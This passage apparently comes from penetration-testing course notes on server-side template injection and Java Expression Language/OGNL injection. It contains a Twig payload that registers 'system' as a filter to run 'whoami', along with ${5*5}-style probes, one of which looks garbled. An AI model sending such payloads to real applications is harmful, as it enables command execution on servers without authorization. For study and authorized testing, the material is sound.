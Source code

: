 Example:
```js
{ { _self.env.registerUndefinedFilterCallback("system") } } { {_self.env.getFilter("whoami") } }
```

Moreover:
```
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
```



## Expression Language / OGNL injection
Java apps are easily recognizable because:
```
- Use common extensions like .jsp or .jsf
- Throw stack traces on errors
- Use known terms in headers like "Servlet"
```

Confirm the injection with a calculation output:
```
${*5}
{5*5}
#{5*5}
%{5*5}
%25{5*5}
```

![Alt text](/assets/images/posts/ewptx/62.png){: .align-center}

The code is saved as Main.java

- Several jars should be present to test properly
